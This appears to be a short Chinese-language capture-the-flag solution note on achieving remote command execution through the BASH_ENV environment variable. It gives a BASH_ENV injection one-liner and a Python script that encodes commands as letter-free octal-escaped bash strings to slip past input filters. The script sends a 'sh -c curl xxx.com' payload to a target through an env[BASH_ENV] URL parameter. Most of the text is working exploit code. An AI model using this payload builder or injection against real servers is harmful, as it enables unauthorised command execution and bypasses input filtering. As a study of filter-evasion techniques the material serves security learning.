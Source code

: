 # 思路
	- 使用进行RCE, 并使用构造无字母payload
- # RCE
	- 参考： ((64bbf5e5-6ddf-4ff6-9d7f-ba6bc9d95262))
	- ```shell
	  BASH_ENV='$(id 1>&2)' bash -c 'echo hello'
	  ```
	- 其中构造的RCE payload中不能再重复使用bash, 否则会导致无限fork
- # 无字母payload构造
	- ```python
	  
	  def zero_str():
	      return "$0"
	  
	  def num(n: int):
	      return str(n)
	  
	  def string(s: str):
	      return "$'" + "".join(
	          ["\\" + num(int(oct(ord(c))[2:]))
	              for c in s]
	      ) + "'"
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(
	          zero = zero_str(),
	          cmd = string(cmd)
	      )
	  
	  # url = "http://127.0.0.1:80"
	  payload = "{cmd} {arg1} {arg2}".format(
	      cmd=string("sh"), # 此处不能使用bash
	      arg1=string("-c"),
	      arg2=string("curl xxx.com") # 此处不能使用bash
	  )
	  r = base_get(url + "?env[BASH_ENV]=" + enc_dec.urlencode("$(CMD 1>&2)".replace("CMD", payload)))
	  print(r.text.rpartition("</code>")[2])
	  ```
